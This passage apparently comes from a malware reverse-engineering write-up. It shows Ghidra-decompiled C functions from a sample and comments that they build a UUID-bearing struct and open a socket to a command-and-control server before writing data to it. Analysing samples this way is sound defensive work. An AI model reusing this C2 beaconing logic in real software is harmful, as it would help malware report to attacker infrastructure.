```c
void FUN_00101ce7(void)

{
  uint __fd;
  long in_FS_OFFSET;
  undefined local_48;
  char acStack71 [37];
  undefined2 local_22;
  void *local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 1;
  strncpy(acStack71,&DAT_00106c60,0x24);
  local_22 = 0;
  __fd = FUN_00101399();
  FUN_001014be((ulong)__fd,&local_48,0,&local_48);
  FUN_0010157c((ulong)__fd,&local_48,0,&local_48);
  FUN_0010190c(local_20);
  free(local_20);
  close(__fd);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We know that `DAT_00106c60` contains the output from the UUIDv4 generated by `libinit()`. It looks like a struct is built on the stack, and then passed to `FUN_00104be` and `FUN_0010157c`. Ghidra also thinks the return value from `FUN_00101399()` is some sort of file descriptor, so that probably opens the socket to the C2 server.

```c
ulong FUN_00101399(void)

{
  // truncated/simplified for readability
  __nptr = (char *)FUN_00101933(&DAT_00104005); // port
  iVar2 = atoi(__nptr);
  __nptr = (char *)FUN_00101933(&DAT_00104000); // cont
  phVar3 = gethostbyname(__nptr);

  __fd = socket(2,1,0);
  local_20 = 0;
  local_28 = 2;
  uVar1 = htons((uint16_t)iVar2);
  memcpy((void *)((long)&local_28 + 4),*phVar3->h_addr_list,(long)phVar3->h_length);

  iVar2 = connect(__fd,(sockaddr *)&local_28,0x10);
  return (ulong)__fd;
}

void FUN_001014be(int param_1,void *param_2,char param_3)

{
  write(param_1,param_2,1);
  write(param_1,(void *)((long)param_2 + 1),0x24);
  write(param_1,(void *)((long)param_2 + 0x26),2);
  if ((param_3 != '\0') && (*(short *)((long)param_2 + 0x26) != 0)) {
    FUN_00101882(*(undefined8 *)((long)param_2 + 0x28),(ulong)*(ushort *)((long)param_2 + 0x26),
                 (ulong)*(ushort *)((long)param_2 + 0x26));
  }
```